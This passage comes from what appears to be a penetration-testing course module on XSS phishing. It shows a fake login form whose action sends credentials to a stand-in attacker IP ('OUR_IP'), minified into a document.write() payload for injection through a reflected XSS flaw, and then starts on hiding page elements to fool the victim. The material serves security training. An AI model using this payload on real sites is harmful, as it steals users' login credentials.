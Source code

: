 We can easily find an HTML code for a basic login form, or we can write our own login form. The following example should present a login form:

```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

In the above HTML code, `OUR_IP` is the IP of our VM, which we can find with the (`ip a`) command under `tun0`. We will later be listening on this IP to retrieve the credentials sent from the form. The login form should look as follows:

```html
<div>
<h3>Please login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>
```

Next, we should prepare our XSS code and test it on the vulnerable form. To write HTML code to the vulnerable page, we can use the JavaScript function `document.write()`, and use it in the XSS payload we found earlier in the XSS Discovery step. Once we minify our HTML code into a single line and add it inside the `write` function, the final JavaScript code should be as follows:

Code: javascript

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

We can now inject this JavaScript code using our XSS payload (i.e., instead of running the `alert(window.origin)` JavaScript Code). In this case, we are exploiting a `Reflected XSS` vulnerability, so we can copy the URL and our XSS payload in its parameters, as we've done in the `Reflected XSS` section, and the page should look as follows when we visit the malicious URL:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_injected_login_form.jpg)

***

### Cleaning Up

We can see that the URL field is still displayed, which defeats our line of "`Please login to continue`". So, to encourage the victim to use the login form, we should remove the URL field, such that they may think that they have to log in to be able to use the page. To do so, we can use the JavaScript function `document.getElementById().remove()` function.

